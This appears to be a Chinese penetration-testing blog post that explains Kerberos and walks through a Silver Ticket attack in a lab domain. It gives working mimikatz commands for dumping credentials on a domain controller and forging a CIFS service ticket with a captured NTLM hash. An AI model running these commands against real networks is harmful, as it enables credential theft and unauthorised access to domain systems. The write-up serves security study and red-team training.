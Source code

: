 ```yaml
---
layout:     post
title:      白银票据伪造
subtitle:   白银票据伪造
date:       2021-02-19
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 内网渗透
---
```


## 0x00 Kerberos协议介绍

Kerberos是一种网络认证协议，其设计目标是通过密钥系统为客户机 / 服务器应用程序提供强大的认证服务。该认证过程的实现不依赖于主机操作系统的认证，无需基于主机地址的信任，不要求网络上所有主机的物理安全，并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下， Kerberos 作为一种可信任的第三方认证服务，是通过传统的密码技术（如：共享密钥）执行认证服务的。

Windows、Linux、Mac三大主流的操作系统都支持Kerberos协议。

在 Kerberos 协议中主要是有三个角色的存在：

1. 访问服务的 Client
2. 提供服务的 Server
3. KDC（Key Distribution Center）密钥分发中心=DC

根据功能划分，DC包括2大模块：AS、TGS。

- AS（Authentication Server）：认证用户，用户使用NTLM加密用户时间戳，AS使用用户的口令NTLM解密时间戳，进行认证，发布认证票据。
- TGS（Ticket Granting Service），根据认证票据，发布授权票据。认证票据可以多次循环使用。

认证流程：

![20201110160228888](../../../../img/20201110160228888.png)



![20201110161132625](../../../../img/20201110161132625.png)

## 0x01 Silver Ticket原理

当拥有Server NTLM Hash时就能伪造一个不经过KDC认证的 TGS。因为Server Session Key在未发送Ticket 之前，服务器是不知道Server Session Key是什么的，所以一切凭证来源于Server Hash，即`Ticket = Server Hash(Server Session Key + Client info + End Time)`

利用条件：

- domain
- 域SID
- 目标服务器的FQDN
- 可利用的服务
- 服务账号的 NTLM Hash
- 需要伪造的用户名

可伪造的服务列表：

![20210219133219](../../../../img/20210219133219.png)

## 0x02 白银票据伪造 CIFS 服务权限

1. 在Client(Windows Server 2008、域成员)上查询域控制器的共享目录，命令`dir \\2012-dc\c$`，提示【登录失败：未知的用户名或密码错误】

   ![20210219135022](../../../../img/20210219135022.png)

2. 在Client(Windows Server 2008、域成员)上获取域SID

   `whoami /user`

   ![20210219134949](../../../../img/20210219134949.png)

3. 在域控制器中使用 mimikatz 获取服务账号的 NTLM Hash

   `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt`

   ![20210219135111](../../../../img/20210219135111.png)

4. 截至目前，白银票据利用条件已全部满足。开始实施伪造TGS前，为避免干扰，先将Client(Windows Server 2008、域成员)上的本地票据清除。

   `kerberos::purge #清除本地票据`

   `kerberos::list #查看本地票据`

   ![20210219135214](../../../../img/20210219135214.png)

5. 使用mimikatz伪造TGS后，成功查询域控制器的共享目录：

   `mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器的FQDN> /service:<服务类型> /rc4:<NTLMHash> /user:<伪造的用户名> /ptt" exit`

   `mimikatz "kerberos::golden /domain:shqax.com /sid:S-1-5-21-1830516205-1272680086-2450899533 /target:2012-DC.shqax.com /service:cifs /rc4:e4b2e65f0e7fa72bd2bc1d5ede230e61 /user:hacker /ptt" exit`

![20210219135250](../../../../img/20210219135441.png)





